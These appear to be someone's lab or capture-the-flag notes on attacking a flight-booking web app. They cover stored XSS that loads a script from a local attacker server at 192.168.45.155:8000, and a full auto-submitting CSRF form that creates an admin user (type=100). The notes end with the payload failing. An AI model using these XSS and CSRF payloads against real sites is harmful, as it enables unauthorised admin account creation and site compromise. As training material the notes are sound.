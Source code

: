 submitted payload `<script src="http://192.168.45.155:8000/xss2.js"></script>` here after logging in with basic user `test:test` `http://screamin_firehawk/`

![[Pasted image 20241125195605.png]]
can see it processing
![[Pasted image 20241125195630.png]]
proof we have `xss`
![[Pasted image 20241125195651.png]]
going to hit `CANCEL ALL FLIGHTS` to not bog down the system

@ `http://screamin_firehawk/register` registering a user name `testing`

now we have the fields needed to create a `CSRF` attack - we just need to create a java payload and callthe payload
![[Pasted image 20241125195949.png]]
utilizing intruder we identifed the `type` field = `100` is when an admin user is created
![[Pasted image 20241125200114.png]]
however we are not authorized from this side of the web client
![[Pasted image 20241125200220.png]]



csrftest.html
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="/loginLogout" method="post" name="csrf">
    <input type="hidden" name="_token" value="LrJUEU2RNjESdh7G8ZeafIFsK1SzVgR1dRtNNoxY">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
  </form>
</body>
</html>
```

payload: `<script src="http://192.168.45.155:8000/csrftest.html"></script>`

submitting here in `booking`
![[Pasted image 20241125200930.png]]
showing that the payload is processing in `my flights`
![[Pasted image 20241125200953.png]]
now we wait for it to hit the `python3 server`

 hit the server
 ![[Pasted image 20241125201029.png]]
 - payload failed to execute and create `bugstwo` user

